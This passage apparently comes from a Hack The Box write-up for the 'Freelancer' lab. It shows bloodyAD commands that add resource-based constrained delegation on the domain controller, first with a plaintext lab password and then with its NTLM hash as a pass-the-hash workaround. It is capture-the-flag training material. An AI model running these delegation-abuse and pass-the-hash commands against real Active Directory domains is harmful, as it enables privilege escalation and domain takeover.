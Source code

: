 - Using BloodyAD - we can add RBCD for a service:

```bash
./bloodyAD.py -d freelancer.htb --host 10.129.213.81 -u lorra199 -p 'PWN3D#l0rr@Armessa199' add rbcd DC$ lorra199

```
The above command didn't work because Python url parser broke the string at the \#

- So I converted the password to an NTLM hash online and used that:

```bash
./bloodyAD.py -p ':67D4AE78A155AAB3D4AA602DA518C051' -d freelancer.htb --host 10.129.213.81 -u lorra199 add rbcd DC$ lorra199

```

![image53](../resources/3be0c687d10d4e0b9cac0df75995e2b5.png)